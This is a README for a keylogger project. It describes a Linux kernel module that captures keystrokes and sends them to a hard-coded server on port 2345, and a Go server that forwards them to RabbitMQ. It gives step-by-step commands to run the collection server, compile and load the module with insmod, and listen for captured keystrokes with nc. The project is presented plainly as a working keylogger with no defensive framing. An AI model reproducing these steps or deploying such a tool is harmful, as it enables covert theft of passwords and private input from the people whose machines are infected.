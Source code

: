 # Keylogger

## Server

The server listens on port 2345 and forwards received keystrokes to RabbitMQ.

Install RabbitMQ:

```
docker run -d --name rabbitmq -e RABBITMQ_DEFAULT_USER=user -e RABBITMQ_DEFAULT_PASS=password -p 8080:15672 -p 5672:5672 rabbitmq:3-management
```

Go to the management console exposed at port 8080 and create a queue `keystrokes`. Then start the server inside the `server/master` folder:

```
RABBITMQ_URI="amqp://user:password@localhost:5672/" RABBITMQ_QUEUE=keystrokes go run main.go
```

## Kernel Module

Follow these steps to install the kernel module onto the linux machine. It will capture keystrokes  
and send them to a hard coded server address at port 2345.

For testing, you can start a TCP listener at that server with `nc -l 2345`.

1. Compile the kernel module

    ```
    make
    ```

2. Load the kernel module

    ```
    sudo insmod keylogger.ko
    sudo lsmod # show kernel modules
    ```

3. View kernel logs

    ```
    sudo dmesg
    ```

4. Unload the kernel module
    ```
    sudo rmmod keylogger
    ```
